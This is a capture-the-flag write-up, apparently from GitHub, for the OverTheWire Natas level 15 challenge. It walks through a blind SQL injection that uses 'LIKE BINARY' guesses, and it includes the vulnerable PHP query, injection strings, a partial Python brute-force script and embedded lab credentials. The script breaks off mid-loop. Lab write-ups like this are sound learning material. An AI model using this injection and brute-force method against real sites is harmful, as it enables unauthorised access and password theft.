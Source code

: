 ## NATAS15
- here it's still sql injection, but there no sight of our password.
- if the user exist it simply echo `This user exists`.
- we got nothing from database, this is a blind sql attack.
- what we need is our password for natas16.
- what information do we have ? 
- in the source code, there is a clue of users table
```sql
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
```
- maybe our password are in that table.
- let's check if there is usernamed natas16.
- there is indeed a user called natas16

![user-exist](./images/user-exits.png).
- now, how do we get the password ??
- in previous attack, we bypass the password check by commenting it.
- here in the code, there is no password checking.
```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
```
- what we can do is, we can add password checking, and bruteforce the password.
```php
$query = "SELECT * from users where username=\"". natas16" AND password LIKE BINARY " something  ."\"";
```
- `LIKE BINARY` means we guessing short
- we know that the password is `32 characters` long mix of alpha num mix capitalisation.
- let say if the password is` Wx89iopAs`
- if we gues `W` it will get correct, if we guessed `Wa` is wrong but `Wx` is right.
- so we can build up from that until we get to `32 characters long`.
- here we can create a brute script that make a request and check for words `This user exists`
- here are example script to make request.
```py
import requests
import string

#variables
#create a-zA-Z0-10 strings of characters
dicts = ''.join(string.ascii_letters+string.digits) 
dicts_filtered = ''
password = '' #buffer to store each gen password

header = {"Authorization": "Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg=="}
sqlURI = 'http://natas15.natas.labs.overthewire.org/index.php?debug'
SQLQuery = '" and password LIKE BINARY "{}{}%"#'

#filter the character in dictionary get only the exist characters
for char in dicts:
    reqData = {'username':'natas16" and password LIKE BINARY "%{}%"#'.format(char)}
    res = requests.post(sqlURI,headers=header,data=reqData)
    # print("res:",res.text)
    if 'exists' in res.text:
```